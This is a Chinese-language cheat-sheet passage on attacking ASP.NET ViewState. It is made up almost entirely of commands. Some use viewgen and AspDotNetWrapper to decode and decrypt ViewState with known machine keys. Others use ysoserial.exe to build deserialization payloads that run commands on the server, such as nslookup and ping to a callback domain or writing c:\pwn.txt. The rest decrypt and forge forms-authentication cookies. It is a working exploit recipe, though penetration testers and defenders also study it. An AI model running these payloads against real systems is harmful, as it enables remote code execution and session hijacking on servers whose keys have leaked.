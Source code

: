 #### 解码 ViewState

```powershell
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="

$ .\AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate  --modifier=CA0B0334 --macdecode

$ .\AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate --modifier=6811C9FF --macdecode --TargetPagePath "/Savings-and-Investments/Application/ContactDetails.aspx" -f out.txt --IISDirPath="/"
```


#### 生成用于远程代码执行的 ViewState

**注意**：使用生成的 ViewState 发送 POST 请求到相同的端点，在 Burp 中你应该对你的有效payload进行 **URL 编码关键字符**。

```powershell
$ ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "cmd.exe /c nslookup <your collab domain>"  --decryptionalg="AES" --generator=ABABABAB decryptionkey="<decryption key>"  --validationalg="SHA1" --validationkey="<validation key>"
$ ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\pwn.txt" --generator="CA0B0334" --validationalg="MD5" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"
$ ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "C:\Users\zhu\Desktop\ExploitClass.cs;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.dll;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Web.dll" --generator="CA0B0334" --validationalg="SHA1" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"

$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```


#### 使用machine key编辑cookies

如果你有 machineKey 但 viewstate 被禁用。

ASP.net 表单身份验证 Cookies : https://github.com/liquidsec/aspnetCryptTools

```powershell
# decrypt cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --purpose=owin.cookie --valalgo=hmacsha512 --decalgo=aes

# encrypt cookie (edit Decrypted.txt)
$ AspDotNetWrapper.exe --decryptDataFilePath C:\DecryptedText.txt
```



## 参考链接
